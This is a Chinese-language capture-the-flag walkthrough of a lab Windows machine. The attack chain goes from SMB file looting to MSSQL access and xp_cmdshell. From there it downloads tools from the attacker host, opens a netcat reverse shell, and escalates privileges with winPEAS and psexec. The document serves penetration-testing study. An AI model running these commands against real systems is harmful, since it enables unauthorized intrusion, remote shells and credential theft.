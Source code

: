 ### 一、操作流程

1. 使用`nmap`工具扫描主机

> nmap -sC -sV 10.129.37.148

```shell
Nmap scan report for 10.129.37.148
Host is up (0.59s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
```

2. 登录smb查找敏感信息

> smbclient -N -L 10.129.37.148  #查看共享目录列表
> smbclient -N  10.129.37.148\\backups #进入共享目录
> 从smb服务器里面获取文件`prod.dtsConfig`,

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

> 获得mssql的用户（ARCHETYPE\sql_svc）和密码（M3g4c0rp123）：

3. Impacket工具的使用

- 安装

```shell
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```

- 连接数据库

> python3 mssqlclient.py ARCHETYPE\sql_svc@10.129.37.148 -windows-auth  

- 开启命令行执行权限

```shell
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

> 至此，可以直接使用cmd指令

4. 反弹shell

- 本地启动临时web服务：`python3 -m http.server 6000`
- 上传工具

> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget <http://10.10.16.88:6000/nc64.exe> -outfile nc64.exe"

- 本地启动监听:`sudo nc -lvnp 443`
- 反弹shell

> EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.88 443"

5. 权限提升

- 上传执行文件`winPEASx64.exe`

> wget <http://10.10.16.88:6000/winPEASx64.exe> -outfile winPEASx64.exe

- 执行文件`winPEASx64.exe`

> .\winPEASx641.exe

- 打开文件获取密码

> C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

6. 主机登录psexec.py

> ython3 psexec.py administrator@10.129.37.148 #登录后获取flag

### 知识点

1. mssql数据库配置指令sp_configure
   - sp_configure：更改配置项
   - RECONFIGURE：展示配置项

> EXEC sp_configure 'show advanced option', '1'; #允许展示高级配置选项，使用sp_configure即可展示配置项目
> EXEC sp_configure 'xp_cmdshell', 1; # 允许执行系统命令

2. xp_cmdshell命令行启动
3. 使用nc64.exe和winPEASx64.exe
4. Impacket工具的使用
5. nc工具
   - 监听端口(只连接)：`nc -l -p 端口`
    > sudo nc -l -p 443
   - 监听端口(持续)：`nc -L -p 端口`
   - 远程连接：`nc -nvv [ip] [PORT]`
winpeas
